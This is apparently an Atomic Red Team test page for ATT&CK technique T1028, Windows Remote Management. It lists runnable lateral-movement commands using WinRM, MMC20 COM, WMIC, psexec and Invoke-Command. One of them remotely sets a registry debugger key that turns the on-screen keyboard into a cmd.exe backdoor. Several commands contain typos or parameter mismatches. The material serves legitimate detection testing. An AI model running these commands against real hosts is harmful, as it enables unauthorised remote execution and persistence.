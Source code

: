 # T1028 - Windows Remote Management
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1028)
<blockquote>Windows Remote Management (WinRM) is the name of both a Windows service and a protocol that allows a user to interact with a remote system (e.g., run an executable, modify the Registry, modify services). (Citation: Microsoft WinRM) It may be called with the <code>winrm</code> command or by any number of programs such as PowerShell. (Citation: Jacobsen 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Windows Remote Management](#atomic-test-1---enable-windows-remote-management)

- [Atomic Test #2 - PowerShell Lateral Movement](#atomic-test-2---powershell-lateral-movement)

- [Atomic Test #3 - WMIC Process Call Create](#atomic-test-3---wmic-process-call-create)

- [Atomic Test #4 - Psexec](#atomic-test-4---psexec)

- [Atomic Test #5 - Invoke-Command](#atomic-test-5---invoke-command)


<br/>

## Atomic Test #1 - Enable Windows Remote Management
Powershell Enable WinRM

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
Enable-PSRemoting -Force
```
<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement
Powershell lateral movement using the mmc20 application com object

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Name of Computer | string | computer1|

#### Run it with `command_prompt`!
```
powershell.exe [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Documnet.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```
<br/>
<br/>

## Atomic Test #3 - WMIC Process Call Create
Utilize WMIC to start remote process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN\Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|

#### Run it with `command_prompt`!
```
wmic /user:#{user_name} /password:#{password} /node:#{computer_name} process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
```
<br/>
<br/>

## Atomic Test #4 - Psexec
Utilize psexec to start remote process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN\Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|

#### Run it with `command_prompt`!
```
psexec \\host -u domain\user -p password -s cmd.exe
```
<br/>
<br/>

## Atomic Test #5 - Invoke-Command
Execute Invoke-command on remote host

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| host_name | Remote Windows Host Name | String | Test|
| remote_command | Command to execute on remote Host | String | ipconfig|

#### Run it with `powershell`!
```
invoke-command -computer_name #{host_name} -scriptblock {#{remote_command}}
```
<br/>
